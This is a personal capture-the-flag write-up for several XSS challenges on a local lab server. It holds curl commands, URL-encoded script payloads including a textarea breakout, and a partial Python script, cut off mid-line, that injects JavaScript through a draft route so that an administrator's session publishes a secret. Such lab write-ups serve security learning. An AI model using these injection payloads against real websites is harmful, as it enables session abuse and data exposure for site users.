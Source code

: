 # XSS(Cross Site Script) 1
Ctrl + Shift + \` in VScode or tmux command tool helped me a lot when I work in these XSS challenges.
To check the HTML page(debug) better, I write these:
```sh vals.sh
url="http://challenge.localhost:80"
alias web=curl\ $url
```
Shortcoming is I should maually do `source vals.sh` for each challenge.

## writeup
Run `/challenge/server` first.
```sh
curl $url --form-string "content=<input>" # url=http://challenge.localhost:80
/challenge/victim
```
I really hate the --form-string. It takes me so many time to find it.
The -F flag will automatically parse the form `key=<filename` and try to read the content of the `filename` file.

# XSS 2
`curl $url --form-string "content=<script>alert('Giv me flag')</script>"`

# XSS 3
Run `/challenge/server` first.

`/challenge/victim "$url/?msg=%3cscript%3ealert('')%3c/script%3e"`

# XSS 4
Run `/challenge/server` first.

`/challenge/victim "$url/?msg=%3c/textarea%3e%3cscript%3ealert('')%3c/script%3e%3ctextarea%3e"`

# XSS 5
In this challenge we assume the victim is the administrator.
When the administrator login his/her account, our XSS runs to make use of the admin account to publish the sensitive info(it's flag in the challenge).

Hacker can login and use the `/draft` backdoor to inject JavaScript which can use the `/publish` route to publish the flag. After the victim(administrator) login, the flag can be seen by anyone who logged in.

### Writeup
Keep `/challenge/server` open.
```python
import requests as req
import pwn

url="http://challenge.localhost:80"

s = req.Session()

h_login = s.post(url + '/login', data = {
    "username": "hacker",
    "password": "1337"
})

h_inj = s.post(url + '/draft', data = {
    'publish': 1,
```
